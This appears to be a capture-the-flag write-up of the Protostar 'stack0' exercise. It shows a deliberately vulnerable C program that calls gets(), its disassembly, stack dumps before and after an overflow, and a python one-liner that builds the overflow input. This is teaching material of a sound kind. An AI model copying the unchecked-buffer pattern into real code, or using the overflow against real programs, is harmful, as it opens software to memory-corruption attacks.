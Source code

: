 ```yaml
---
layout: default
---
```


Source code:
```c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>

int main(int argc, char **argv)
{
  volatile int modified;
  char buffer[64];

  modified = 0;
  gets(buffer);

  if(modified != 0) {
      printf("you have changed the 'modified' variable\n");
  } else {
      printf("Try again?\n");
  }
}
```

"main" function:
```assembly
0x080483f4 <main+0>:    push   ebp
0x080483f5 <main+1>:    mov    ebp,esp
0x080483f7 <main+3>:    and    esp,0xfffffff0
0x080483fa <main+6>:    sub    esp,0x60
0x080483fd <main+9>:    mov    DWORD PTR [esp+0x5c],0x0
0x08048405 <main+17>:   lea    eax,[esp+0x1c]
0x08048409 <main+21>:   mov    DWORD PTR [esp],eax
0x0804840c <main+24>:   call   0x804830c <gets@plt>
0x08048411 <main+29>:   mov    eax,DWORD PTR [esp+0x5c]
0x08048415 <main+33>:   test   eax,eax
0x08048417 <main+35>:   je     0x8048427 <main+51>
0x08048419 <main+37>:   mov    DWORD PTR [esp],0x8048500
0x08048420 <main+44>:   call   0x804832c <puts@plt>
0x08048425 <main+49>:   jmp    0x8048433 <main+63>
0x08048427 <main+51>:   mov    DWORD PTR [esp],0x8048529
0x0804842e <main+58>:   call   0x804832c <puts@plt>
0x08048433 <main+63>:   leave
0x08048434 <main+64>:   ret
```
From the asm of "main", we find that:
1. `<span style="color:aqua">buffer</span>` occupies `esp + 0x1c` until `esp + 0x58`. It is supposed to be 64-byte long.
2. `modified` occupies `esp + 0x5c`.

So, here are 96 bytes of memory starting at esp, before we input a value for "buffer":
<pre>
0xbffff740:     0xbffff75c      0x00000001      0xb7fff8f8      0xb7f0186e
0xbffff750:     0xb7fd7ff4      0xb7ec6165      0xbffff768      0xb7eada75
0xbffff760:     <span style="color:blue">0xb7fd7ff4</span>      0x08049620      0xbffff778      0x080482e8
0xbffff770:     0xb7ff1040      0x08049620      0xbffff7a8      0x08048469
0xbffff780:     0xb7fd8304      0xb7fd7ff4      0x08048450      0xbffff7a8
0xbffff790:     0xb7ec6365      0xb7ff1040      0x0804845b      0x00000000
</pre>

```text
0xbffff740:     0xbffff75c      0x00000001      0xb7fff8f8      0xb7f0186e
0xbffff750:     0xb7fd7ff4      0xb7ec6165      0xbffff768      <span style="color:blue">0xb7eada75</span>
0xbffff760:     <span style="color:blue">0xb7fd7ff4</span>      <span style="color:blue">0x08049620</span>      <span style="color:blue">0xbffff778</span>      <span style="color:blue">0x080482e8</span>
0xbffff770:     <span style="color:blue">0xb7ff1040</span>      <span style="color:blue">0x08049620</span>      <span style="color:blue">0xbffff7a8</span>      <span style="color:blue">0x08048469</span>
0xbffff780:     <span style="color:blue">0xb7fd8304</span>      <span style="color:blue">0xb7fd7ff4</span>      <span style="color:blue">0x08048450</span>      <span style="color:blue">0xbffff7a8</span>
0xbffff790:     <span style="color:blue">0xb7ec6365</span>      <span style="color:blue">0xb7ff1040</span>      <span style="color:blue">0x0804845b</span>      0x00000000
```
and after:
```text
0xbffff740:     0xbffff75c      0x00000001      0xb7fff8f8      0xb7f0186e
0xbffff750:     0xb7fd7ff4      0xb7ec6165      0xbffff768      0x41414141
0xbffff760:     0x42424242      0x43434343      0x44444444      0x45454545
0xbffff770:     0x46464646      0x47474747      0x48484848      0x31313131
0xbffff780:     0x32323232      0x33333333      0x34343434      0x35353535
0xbffff790:     0x36363636      0x37373737      0x38383838      0x00000078
```

buffer value:
```bash
python -c "print 'AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHH11112222333344445555666677778888' + 'x'" > input.txt
```
stack0 < input.txt

[back](./)
